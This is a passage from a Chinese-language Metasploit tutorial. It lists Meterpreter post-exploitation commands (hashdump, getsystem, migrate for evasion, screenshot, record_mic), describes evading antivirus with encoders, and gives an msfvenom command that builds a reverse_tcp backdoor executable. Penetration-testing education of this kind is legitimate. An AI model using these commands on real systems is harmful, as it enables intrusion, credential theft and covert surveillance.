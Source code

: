 *   **`help`**：显示所有 Meterpreter 命令。
*   **`sysinfo`**：查看目标系统信息。
*   **`getuid`**：获取当前用户 ID。
*   **`pwd`**：显示当前工作目录。
*   **`ls` / `dir`**：列出文件和目录。
*   **`cd [目录]`**：切换目录。
*   **`upload [本地文件] [远程路径]`**：上传文件到目标机器。
*   **`download [远程文件] [本地路径]`**：从目标机器下载文件。
*   **`execute -f [文件路径]`**：在目标机器上执行程序。
*   **`ps`**：列出目标机器上的进程。
*   **`migrate [PID]`**：将 Meterpreter 进程迁移到另一个进程 ID (PID)，用于提高稳定性或绕过检测。
*   **`getsystem`**：尝试使用各种技术提权到 SYSTEM 权限。
*   **`shell`**：切换到目标系统的命令行 Shell (例如 `cmd.exe` 或 `bash`)。
*   **`hashdump`**：获取存储在 SAM 数据库中的用户哈希 (Windows)。
*   **`load [扩展名]`**：加载 Meterpreter 扩展模块，例如 `load kiwi` (用于 Mimikatz 功能)。
*   **`screenshot`**：截取目标机器屏幕。
*   **`record_mic`**：录制目标机器麦克风。

## 五、Metasploit 的高级用法与功能

### 5.1 Evasion (规避)

Metasploit 提供了编码器 (Encoders) 来混淆 Payload，尝试绕过杀毒软件和入侵检测系统 (IDS/IPS)。但随着安全技术的进步，单独使用编码器往往不够，需要结合其他技术 (如签名修改、沙箱规避、文件捆绑等)。

### 5.2 Sessions (会话管理)

`msfconsole` 可以同时管理多个 Meterpreter 会话。使用 `sessions` 命令可以查看、切换或杀死会话。

### 5.3 Resource Scripts (资源脚本)

可以将一系列 Metasploit 命令保存为 `.rc` 脚本文件。在 `msfconsole` 中使用 `resource [脚本文件]` 命令可以批量执行这些命令，实现自动化。

### 5.4 Msfvenom

`msfvenom` 是 Metasploit 框架中的一个独立命令行工具，用于生成独立的 Payload。它结合了 `msfpayload` (Payload 生成) 和 `msfencode` (Payload 编码) 的功能。

*   **用途**：生成适用于各种平台和格式的恶意载荷（如 Windows EXE, Linux ELF, Web Shell, PowerShell 等）。
*   **示例**：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o ~/Desktop/backdoor.exe
    ```
    这条命令会生成一个 Windows 可执行文件，当在目标机器上运行时，会尝试与攻击者建立 `meterpreter/reverse_tcp` 连接。

### 5.5 Post-Exploitation (后渗透)

Metasploit 的 Post 模块以及 Meterpreter 的强大功能使得后渗透阶段非常高效。这包括：

*   **信息收集**：枚举系统配置、网络信息、用户凭证。
*   **权限维持**：创建后门、添加用户、修改注册表。
*   **横向移动**：利用获取的凭证攻击同网络内其他机器。
*   **提权**：利用内核漏洞或配置错误获取更高权限。
